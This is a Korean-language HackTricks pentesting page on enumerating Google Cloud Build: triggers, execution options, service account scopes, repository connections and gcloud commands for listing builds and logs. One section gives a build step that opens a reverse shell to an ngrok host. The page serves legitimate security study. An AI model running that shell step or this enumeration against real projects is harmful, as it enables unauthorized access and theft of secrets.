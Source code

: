 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)로부터 AWS 해킹을 처음부터 전문가까지 배우세요!</strong></summary>

HackTricks를 지원하는 다른 방법:

- **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구입하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
- **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 요령을 공유**하세요.

</details>

## 기본 정보

Google Cloud Build는 **소프트웨어 빌드 및 릴리스 프로세스를 자동화**하며 **소스 코드 저장소와 통합**되어 다양한 프로그래밍 언어를 지원하는 관리형 CI/CD 플랫폼입니다. **개발자가 코드를 자동으로 빌드, 테스트 및 배포**할 수 있도록 하며 빌드 단계와 워크플로를 사용자 정의할 수 있습니다.

각 Cloud Build 트리거는 **Cloud 저장소와 관련**이 있거나 외부 저장소(Github, Bitbucket 및 Gitlab)와 **직접 연결**됩니다.

{% hint style="success" %}
여기서 Github/Bitbucket 토큰을 **도용할 수 있는 방법을 찾을 수 없었습니다.** 왜냐하면 저장소가 다운로드될 때 [https://source.cloud.google.com/](https://source.cloud.google.com/) URL을 통해 액세스되며 Github는 클라이언트에 의해 액세스되지 않기 때문입니다.
{% endhint %}

### 이벤트

Cloud Build는 다음 경우에 트리거될 수 있습니다:

- **브랜치로 푸시**: 브랜치 지정
- **새 태그로 푸시**: 태그 지정
- **풀 리퀘스트**: PR을 받는 브랜치 지정
- **수동 호출**
- **Pub/Sub 메시지**: 주제 지정
- **웹훅 이벤트**: HTTPS URL을 노출하며 요청은 비밀로 인증되어야 함

### 실행

3가지 옵션이 있습니다:

- 실행할 명령을 지정하는 yaml/json. 일반적으로: `/cloudbuild.yaml`
- 웹 콘솔 및 CLI에서 "인라인"으로 지정할 수 있는 하나
- 가장 일반적인 옵션
- 인증되지 않은 액세스에 관련
- 빌드할 **Dockerfile**
- 빌드할 **Buildpack**

### SA 권한

**서비스 계정에는 `cloud-platform` 스코프가 있으므로 모든 권한을 사용**할 수 있습니다. **SA가 지정되지 않은 경우**(제출 시와 같이) **기본 SA** `<proj-number>@cloudbuild.gserviceaccount.com`이 **사용**됩니다.

기본적으로 권한이 부여되지 않지만 쉽게 부여할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 승인

빌드 실행에 대한 **승인을 요구하도록 Cloud Build를 구성**할 수 있습니다(기본적으로 비활성화됨).

### 연결 및 저장소

연결은 다음을 통해 생성할 수 있습니다:

- **GitHub:** **Github 토큰을 얻기 위한 권한을 요청하는 OAuth 프롬프트**가 표시되며 이 토큰은 **Secret Manager에 저장**됩니다.
- **GitHub Enterprise:** **GithubApp**을 설치하라는 요청이 표시됩니다. **GitHub Enterprise 호스트에서의 인증 토큰**이 생성되어 이 프로젝트에 **Secret Manager** 비밀로 저장됩니다.
- **GitLab / Enterprise:** **API 액세스 토큰 및 Read API 액세스 토큰**을 제공해야 하며 이는 **Secret Manager**에 저장됩니다.

연결이 생성되면 Github 계정이 액세스할 수 있는 저장소를 **연결**할 수 있습니다.

이 옵션은 다음 버튼을 통해 사용할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
이 방법으로 연결된 저장소는 **2세대를 사용하는 트리거에서만 사용 가능**합니다.
{% endhint %}

### 저장소 연결

이는 **`연결`**과는 다릅니다. 이는 **Github 또는 Bitbucket** 저장소에 액세스하는 **다양한** 방법을 제공하지만 **연결 객체를 생성하지 않고 1세대의 저장소 객체를 생성**합니다.

이 옵션은 다음 버튼을 통해 사용할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 저장

가끔 Cloud Build는 **트리거 파일을 저장할 새로운 저장소를 생성**할 수 있습니다. 예를 들어 GCP가 제공하는 예제에서 발생합니다.
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### 쉘 획득
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 열거

**빌드 구성 및 로그에서 민감한 정보를 찾을 수 있습니다**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 권한 상승

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 인증되지 않은 액세스

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 사후 공격

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
